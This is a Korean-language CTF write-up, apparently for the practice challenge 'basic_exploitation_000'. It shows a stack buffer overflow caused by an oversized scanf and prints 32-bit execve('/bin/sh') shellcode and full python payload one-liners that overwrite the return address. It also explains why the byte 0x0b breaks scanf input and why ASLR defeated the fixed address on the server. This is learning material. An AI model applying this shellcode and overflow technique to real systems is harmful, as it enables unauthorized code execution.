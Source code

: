 # **basic_exploitation_000**


파일을 키자 말자 보이는 것이

```c
 char buf[0x80];
 
 scanf("%141s", buf);
```

버퍼는 0x80 (128바이트) 받으면서 

141바이트까지 입력을 허용한다

| 128바이트 |
| --- |
| 4바이트(SFP) |
| 리턴주소 |

이렇게 생겼으므로

133바이트부터 141바이트까지 /bin/sh 경로의 셀 주소를 넣어볼 것이다

그런데 위 경로는 셀 코드로 작성했을 때 

/bin/sh 경로는

```bash
'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80'
```

으로 23바이트라 안들어가진다

그러면 

| 128바이트 |
| --- |
| 4바이트(SFP) |
| 리턴주소 |

리턴주소를 버퍼가 있는 주소로 잡고 버퍼에 셀 주소를 넣으면 된다 

우선 입력한 값이 어디 저장되는지 확인해보자

![image (16)](https://github.com/user-attachments/assets/17f3b5d5-aa4b-47b3-924e-34ffc89c69d1)

`0xffffd008`에 저장되는 것을 알았다

실제로 아무값인 dawd를 넣어보니

![image](https://github.com/user-attachments/assets/d385d44e-7e05-4131-8fbe-95b6e5d9bbb1)


`0xffffd008` 이 주소에 들어가진다

이제 위 정보들로 

| 23바이트 셀 주소 + 남은 105바이트 아무 값 |
| --- |
| 아무 값 4바이트 |
| 리턴주소로 `0xffffd008` |

이렇게 만들어주면 된다

```python
(python3 -c "import sys; sys.stdout.buffer.write(
b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80'
+ b'A'*105 + b'B'*4 + b'\x38\xd0\xff\xff')"; cat) | ./basic_exploitation_000

```

이렇게 했는데

안됐다

아무리봐도 문제가 없는거같아서 셀코드를

```python
b'\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80'
```

이걸로 수정하고 A를 102바이트로 바꿨더니 됐다.

같은 경로의 셀 코드인데 하나는 되고 하나는 안되는 이유를 모르겠어서 한참 찾아봤더니

표준 c에서는 scanf 가 `\x0b`를 공백 문자 취급한다고 한다

execve 시스템 콜 번호가 `0b` 이고 (숫자 11)

`mov al, 0x0b` 레지스터 al에 11을 넣는 명령어라고 한다

근데 마침 `0b` 가 아스키로 수직 탭(\v)이라 공백 처리 되어서 문제가 있었던 거였다

**비교**

> \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80
> 

> \x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80
> 

```python
(python3 -c "import sys; sys.stdout.buffer.write(
b'\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80' +
b'A'*102 + b'B'*4 + b'\x38\xd0\xff\xff')"; cat) | ./basic_exploitation_000

```

![image](https://github.com/user-attachments/assets/34a97d0f-6976-4233-87ca-19784c6eda6c)

이렇게 접근에 성공했다

이제 서버에 넣어보면

![image (17)](https://github.com/user-attachments/assets/222265ad-7ea2-498c-8dce-c6bd9f4f8cea)

또 안된다
이유를 모르겠어서 멘토형님한테 물어보니  
운영체제는 프로그램을 실행할 때 가상 메모리를 사용하고,  
여러 보안 기능 중 하나로 **ASLR (Address Space Layout Randomization)**을 통해 메모리 주소를 랜덤하게 배정한다고 한다  
실행파일의 코드 영역 등이 매 실행마다 랜덤하게 시작 주소가 바뀌는 구조인거다.  

그래서 payload += p32(bufAddress) 이런식으로 버퍼 주소를 가져온 뒤 가져온 값으로 문제를 풀어야한다  








